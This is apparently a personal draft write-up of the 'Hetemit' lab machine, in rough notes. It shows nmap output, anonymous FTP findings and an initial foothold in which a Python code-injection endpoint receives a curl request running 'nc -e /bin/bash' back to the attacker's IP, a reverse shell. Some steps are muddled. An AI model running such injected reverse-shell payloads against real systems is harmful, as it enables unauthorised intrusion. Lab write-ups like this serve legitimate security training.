 ```yaml
---
title: "WriteUp PG Hetemit"
date: 2025-01-31T00:00:00Z
type: "post"
draft: true
---
```


Commands in order

# Recon
# Nmap scan
## all ports, OS, verbose, scripts, fast, output
nmap 192.168.116.117 -p- -O -sV -sC -f -oA hetemit

# Ports
FTP, SSH, HTTP, SMB, biimenu(?), Http Python(?) 

# SMB no creds
## Nothing

# FTP no creds
## refused connections(?) Connection refused
``` ftp 192.168.116.117 ```

21/tcp    open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.217
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

# Initial Foothold
# Http no creds
## Can connect 192.168.116.117:50000
/generate
/verify

## http://192.168.116.117:50000/verify brings you to {'code'}
If you use curl you get a response
``` curl -X post --data "code=2*2" http://192.168.116.117:50000/verify ```
``` curl -X post --data "code=os" http://192.168.116.117:50000/verify ```
Write up uses penelope as a nc replacement

``` curl -X post --data "code=os.system('nc -e /bin/bash 192.168.45.184 18000')" http://192.168.116.117:50000/verify ```

## Reverse shell equivalent
``` curl -X post --data "code=os.system('nc -nlvp 18000')" http://192.168.116.117:50000/verify ```

## NOTE only works on port 18000 on nc listener and no other port
## NOTE no sign of recon once you find out code=os.system

# Privilege Escalation
## Upgrade shell(?)
## Trying to use reverse shell becase NC shell can't edit files neatly so I need either an upgraded shell or a shell environment that allows for smooth file edit operations